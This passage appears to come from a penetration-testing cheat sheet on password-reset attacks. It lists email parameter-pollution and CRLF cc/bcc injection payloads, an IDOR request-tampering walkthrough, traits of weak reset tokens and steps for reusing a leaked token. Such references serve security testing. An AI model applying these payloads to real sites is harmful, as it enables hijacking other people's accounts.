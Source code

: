 
### Password Reset Via Email Parameter

```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

### IDOR on API Parameters

1. Attacker have to login with their account and go to the **Change password** feature.
2. Start the Burp Suite and Intercept the request
3. Send it to the repeater tab and edit the parameters : User ID/email
    ```powershell
    POST /api/changepass
    [...]
    ("form": {"email":"victim@email.com","password":"securepwd"})
    ```

### Weak Password Reset Token

The password reset token should be randomly generated and unique every time.
Try to determine if the token expire or if it's always the same, in some cases the generation algorithm is weak and can be guessed. The following variables might be used by the algorithm.

* Timestamp
* UserID
* Email of User
* Firstname and Lastname
* Date of Birth
* Cryptography
* Number only
* Small token sequence (<6 characters between [A-Z,a-z,0-9])
* Token reuse
* Token expiration date

### Leaking Password Reset Token

1. Trigger a password reset request using the API/UI for a specific email e.g: test@mail.com
2. Inspect the server response and check for `resetToken`
3. Then use the token in an URL like `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`
